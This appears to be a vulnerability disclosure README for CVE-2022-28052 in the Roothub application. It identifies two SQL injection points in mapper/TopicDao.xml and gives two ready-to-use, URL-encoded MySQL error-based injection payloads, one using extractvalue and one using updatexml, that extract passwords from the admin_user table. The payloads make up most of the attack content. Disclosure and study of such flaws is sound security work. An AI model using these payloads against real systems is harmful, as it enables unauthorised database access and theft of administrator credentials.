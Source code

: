 # Roothub_vulns / CVE-2022-28052

Vulnerable codes:

## Bug 1:
> Erroneously usage of "$" in mapper/TopicDao.xml:130:<br>
![image](https://user-images.githubusercontent.com/9525971/159167814-90697f99-74dc-496f-be04-c641db268602.png)<br><br>
## Bug 2:
> Erroneously usage of "$" in mapper/TopicDao.xml:516:<br>
![image](https://user-images.githubusercontent.com/9525971/159168468-e1956c80-26dd-4ad9-84ef-2939688cd907.png)

<br><br>
> Payload: we can use "extractvalue" or "updatexml" function in mysql to trigger the exception and finish the exploitation of this SQLi vulnerability.
1. "extractvalue":
a%25'%20union%20select%20null%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cextractvalue('1'%2Cconcat('~'%2C(select%20password%20from%20admin_user)))%20from%20admin_user--%20

2. "updatexml":
xx%25%27%20and%20updatexml(1%2Cconcat(0x7e%2C(select%20password%20from%20admin_user)%2C0x7e)%2C3)--%20<br><br>

> Result:
1. "extractvalue":<br>
![image](https://user-images.githubusercontent.com/9525971/159168040-faae0fcd-d21c-4784-ab39-3faac5d6664e.png)<br>
2. "updatexml":<br>
![image](https://user-images.githubusercontent.com/9525971/159168005-c753cbf5-9f82-463c-9bcf-5dcfe8cdc6d6.png)

